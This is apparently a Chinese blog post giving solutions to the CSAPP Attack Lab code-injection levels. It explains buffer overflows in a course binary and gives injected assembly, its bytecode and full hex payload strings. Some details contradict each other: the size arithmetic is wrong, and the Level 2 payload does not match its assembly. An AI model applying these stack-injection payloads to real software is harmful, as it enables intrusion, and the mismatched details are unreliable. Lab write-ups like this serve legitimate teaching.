 ```yaml
---
title: 'CSAPP_AttackLab'
date: 2023-03-01
permalink: /posts/2023/03/csapp_attacklab/
tags:
  - labs
  - solutions
excerpt: ""
---
```


代码参考: [https://github.com/ChenYuHengSJTU/CSAPP_Labs/tree/main/target1](https://github.com/ChenYuHengSJTU/CSAPP_Labs/tree/main/target1)

## 一些准备工作

+ 实验 Writeup 的附录中有很多有用的东西，包括书写简单的汇编代码，将汇编编译为字节码，然后在反汇编得到汇编指令的字节表示。
+ 使用 `objdump -d ctarget > ctarget.txt` 将 ctarget 反汇编

## Part I: Code Injection Attacks

### Level 1

+ 根据 writeup 的提示，需要利用 getbuf 中字符数组无边界检查的特性，将 touch1 的地址塞进栈中，让 getbuf 从栈中弹出地址时，弹出的是 touch1 的地址

+ 上汇编代码

![assets\post\2023-03\image-20230301200029288.png](/assets\post\2023-03\image-20230301200029288.png)

+ 可以得到 touch1 地址：0x4017c0

+ 由汇编代码，getbuf 将读入的字符串存放在栈中，预设的字符串最大长度为 0x20 = 40 bytes！！！

+ 所以我们需要输入至少长度为 48bytes 的字符串，其中，41 - 48 的子串为 touch1 的地址

+ 得到答案：

![assets\post\2023-03\image-20230301200620547.png](/assets\post\2023-03\image-20230301200620547.png)

### Level 2

+ 需要跳转到 touch2，并且需要正确传递 cookie 为参数

+ 根据 x86 的函数调用规则，应该把 cookie 传给 rdi

+ 所以需要自己插入一些代码

+ 思路就是，让 buf 溢出，将返回地址设置为自己插入的代码的地址，在自己的代码中进行参数传递，然后再跳转到 touch2

+ 汇编代码

```assembly
mov $0x5561dcbc, %rdi
pushq $0x4018fa
retq
```

+ `gcc -c *.s -o *.0 objdump -d *.o > *.d`

```assembly
level3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 bc dc 61 55 	mov    $0x5561dcbc,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

+ 注意，需要考虑插入的字节序列的方向，其实在这里就从头往后依次插入就可以了，不需要调整方向

+ One possible solution：

```text
10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 10 a8 dc 61 55 00 00 00 00 48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 
```

![assets\post\2023-03\image-20230301200735291.png](/assets\post\2023-03\image-20230301200735291.png)

### Level3

+ 同样需要传递参数，只不过这次传递的是一个字符串，所以还需要考虑把字符串放在内存的哪个位置

+ 其实可以放在 buf 溢出的位置（我这里一次就成功了，不过看网上的其他答案，好像这个字符串必须放在内存位置较高的地方，否则有可能被 touch3 里面的函数调用覆盖，我直接放在了 buf + 8 + injected code length 的位置

+ 汇编代码：

```assembly
mov $0x5561dcbc, %rdi
pushq $0x4018fa
retq
```

反汇编后：

```assembly
level3.o：     文件格式 elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 bc dc 61 55 	mov    $0x5561dcbc,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

+ One possible solution：

```text
35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 a8 dc 61 55 00 00 00 00 48 c7 c7 b6 dc 61 55 68 fa 18 40 00 c3 00 35 39 62 39 39 37 66 61 00
```

![assets\post\2023-03\image-20230305134834990.png](/assets\post\2023-03\image-20230305134834990.png)